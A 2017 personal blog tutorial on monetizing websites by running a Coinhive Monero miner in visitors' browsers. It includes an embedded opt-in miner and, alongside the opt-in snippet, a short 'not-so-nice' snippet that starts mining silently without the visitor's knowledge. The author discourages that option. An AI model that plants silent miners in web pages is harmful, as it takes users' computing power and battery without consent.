 ```yaml
---
aliases:
  - "/how-to-monetize-your-website-with-cryptocurrency-mining/"
date: "2017-12-10"
description: "Advertising is dying. Let me show you a new way to monetize your website using a JavaScript-based Monero miner."
slug: "how-to-monetize-your-website-with-cryptocurrency-mining"
tags:
  - "cryptocurrency"
  - "programming"
title: "How to Monetize Your Website with Cryptocurrency Mining"
---
```



![Dwarf Miner Sketch][]

I’m a big fan of cryptocurrencies and blockchain technologies. They have a
number of interesting applications, one of which I’ll be discussing today:
monetizing your websites.

Developing and running a successful website can be really challenging. If your
website doesn’t directly charge users for a service, making money to cover your
expenses (and potentially turn a profit) can be nearly impossible.


## Advertising is Dying

![Dying Fly Sketch][]

Integrating with an ad network like Google Adsense and showing display ads on
your site is a losing game: people hate ads and go to extreme lengths to block
and ignore them. I’ve been using ad blockers since 2006 and haven’t seen a
single web ad in over 11 years. [Recent studies](https://pagefair.com/blog/2017/adblockreport/)
estimate 11% of the global population uses an ad blocker, and that number is
likely far greater for younger generations and people in North America.

Since advertising is a undisputedly dying as an industry, there are only a
couple of options you (as a website owner) can take to monetize your website in
a future-proof way:

- Ask your visitors to donate to your website to keep it alive. There are
  numerous ways to do this. Wikipedia shows a banner across their site whenever
  they need to raise money asking users to donate a few bucks to keep the site
  running. [Patreon](https://www.patreon.com) is another popular option: ask
  your users to pay you a small monthly fee to get extra content on your site.
- Charge your users money to use your website. This is the most straightforward
  approach, but also one of the hardest. Are your users willing to pay for what
  you provide?
- Mine cryptocurrencies in the user’s browser


## Mining Cryptocurrency for Profit

<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" style="width: 728px; height: 90px; text-align: center;" data-key="YChK05vwHZjtPThtRLWsE1fd1ece8doW" data-whitelabel="true">
  <em>Loading...</em>
</div>

**NOTE**: Click the play button above. You may need to disable your adblocker.
It will allow you to mine cryptocurrency as you read this article.  Neat right?

Mining cryptocurrency in the browser is a relatively new strategy to monetize
websites. It’s theoretically workable, but extremely inefficient:

- Most cryptocurrencies require a lot of computing power to perform the
  necessary hash functions to “mine” cryptocurrencies
- Running cryptocurrency mining software in a user’s browser (via JavaScript) is
  inefficient: JavaScript is a slow interpreted language. Running CPU intensive
  code inside of the browser’s engine is also slow and error prone.

There is, however, one way to efficiently mine cryptocurrency in a user’s
browser: [Monero](https://getmonero.org/). Monero is a cryptocurrency designed
for anonymity. Transactions are anonymous and untraceable (unlike
[Bitcoin](https://bitcoin.org/en/you-need-to-know)).

The main reason why Monero can effectively be mined from within a browser is due
to the hashing algorithm that powers Monero transactions:
[CryptoNight](https://cryptonote.org/whitepaper.pdf).

The CryptoNight hashing algorithm is designed to run effectively on consumer
grade CPUs (this means normal desktop and laptop computers) while running
inefficiently on stronger CPUs and GPUs (which are traditionally required to
process large volumes of cryptocurrency transactions).

What this means is that Monero can be mined effectively from the computer you’re
using to read this article. Because of this, there is very little incentive for
investors to go spend millions of dollars on expensive computing equipment and
mine all of the Monero transactions (this is what has happened to Bitcoin and
Ethereum in recent years).

This levels the playing field, making it possible for you to effectively allow
users viewing your website to mine Monero for you via their browser.


## Mining Monero

![Monero Logo][]

So, how exactly can you get your users to mine Monero coins for you? The short
answer is [coinhive](https://coinhive.com/). coinhive is an API service that
allows you to embed a Monero miner into a user’s browser, which will mine coins
and earn money for you.

The way coinhive makes money is by keeping 30% of the Monero earned by your
miners. The remaining 70% is paid out to you directly in Monero.

If you have Monero, how can you cash it in for USD? In the same exact way you’d
cash Bitcoin in for USD: an exchange.

Currently, [Coinbase](https://www.coinbase.com/join/51660a68c08669f6b8000046) is
the most popular Bitcoin exchange around. It allows you to purchase Bitcoin,
sell Bitcoin, etc. The going price for Bitcoin as I write this article is nearly
$14,000 per coin.

Monero is not nearly as mainstream. There are a number of Monero exchanges you
can use, none of which have monopolized the space. You can find a list of all
the current Monero exchanges [here](http://monero.org/services/exchange/). As I
write this article, the price of a single Monero coin is $230.

If you were to run a website today that has around 10 - 20 active users mining
Monero, you could reasonably expect to earn 0.3 Monero per month: roughly $69.
If your website contains content that keeps users engaged for long periods of
time: mining Monero may be a viable strategy for monetizing your site.


## How to Mine Monero in the Browser

Now that we’ve covered the basics, let’s take a look at how you can actually
start mining Monero in the browser.

The first thing you’ll need to do is create a coinhive account, which you can do
[here](https://coinhive.com/account/signup).

Once you’ve created your account, you’ll want to visit the [Sites
page](https://coinhive.com/settings/sites). This page allows you to create new
API key pairs for each website you plan to mine on.

If you want to run this Monero mining code on multiple websites, you would
create multiple sites here and give each a unique name. This will allow you to
see how much each website has earned over time.

Now that you know how this works, go ahead and give your default API key pair a
name. It’s best to name it using the full URL of the domain you plan to run the
code on. Here’s what my screen looks like:

![coinhive Settings Page][]

**NOTE**: Whatever you do: don’t share your private key. Keep it private.

Next, you’ve got to embed the mining Javascript code into your web pages. You
have two primary ways to do this:

1. The nice way
2. The not-so-nice way

If you opt for strategy #1, you’ll want to embed the following JavaScript code
into your site:

```html
<script src="https://authedmine.com/lib/authedmine.min.js"></script>
<script>
  var miner = new CoinHive.Anonymous('YOUR_PUBLIC_KEY');
  miner.start();
</script>
```

When the page loads, your users will be greeted by this opt-in screen:

![coinhive Opt-in Page][]

This lets the user opt-in to what you’re asking them to do.

Now, if you want to go for option #2 (*which I’m not recommending*), what you’ll
want to do is the exact same thing as above with one minor change: link to a
different source file.

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
  var miner = new CoinHive.Anonymous('YOUR_PUBLIC_KEY');
  miner.start();
</script>
```

This will let start silently mining Monero as soon the as the script is loaded,
without signaling anything to the user.


## Measuring Your Results

Now that you’ve got your users mining Monero for you, you’ll want to see how
much Monero you’re actually earning.

To do this, you’ll want to go check out your coinhive dashboard and take a look
at your stats:

![coinhive Dashboard Page][]

Not bad, right? In just a few minutes you are able to monetize any free website!


## Things to Consider

Before you run off and embed Monero mining software in all your websites, there
are a few things you should think about.

First off: I was partially lying to you earlier. While it’s true that the online
ad industry is dying because people hate ads, running a Monero miner in the
browser won’t save you from those of us who use adblockers.

I use the fantastic [uBlock Origin](https://chrome.google.com/webstore/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm?hl=en)
Chrome extension and it blocks cryptocurrency miners like this one by default.
So if you’re trying to monetize a website via mining to recoup losses from
adblockers, this won’t help you. Instead: this is simply an alternative way to
monetize your free users.

While I have no evidence to back this up, I strongly suspect that users might be
more open to letting you borrow some of their CPU power than showing them
annoying and obnoxious display ads.

Finally: be careful what you do with this. If you choose to start running mining
software on a user’s computer without their consent, you’ll drain their device’s
battery faster, potentially make their device “lag”, etc. It’s just not a nice
thing to do.

So, as always, don’t be a jerk.

Got a question? [Hit me up][].

-Randall


  [Dwarf Miner Sketch]: /static/images/2017/dwarf-miner-sketch.jpg "Dwarf Miner Sketch"
  [Dying Fly Sketch]: /static/images/2017/dying-fly-sketch.jpg "Dying Fly Sketch"
  [Monero Logo]: /static/images/2017/monero-logo.png "Monero Logo"
  [coinhive Settings Page]: /static/images/2017/coinhive-settings.png "coinhive Settings Page"
  [coinhive Opt-in Page]: /static/images/2017/coinhive-opt-in.png "coinhive Opt-in Page"
  [coinhive Dashboard Page]: /static/images/2017/coinhive-dashboard.png "coinhive Dashboard Page"
  [Hit me up]: mailto:r@rdegges.com "Randall Degges' Email"

